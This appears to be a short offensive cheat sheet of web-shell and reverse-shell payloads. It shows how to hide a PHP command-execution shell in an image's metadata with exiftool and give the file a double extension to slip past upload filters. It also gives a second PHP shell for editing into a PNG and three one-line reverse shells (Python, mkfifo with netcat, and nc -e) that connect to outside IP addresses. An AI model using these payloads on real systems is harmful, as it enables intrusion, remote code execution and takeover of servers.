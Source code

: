 ### Using exiftool
      exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' normal.jpg
      mv normal.jpg normal.php.jpg
      
### Vim edit png
      <?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
      
### reverse shells
      python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",4444));os.dup2(s.fileno(),0);              os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
      rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.4 4444 >/tmp/f
      nc -e /bin/sh 10.0.0.1 1234
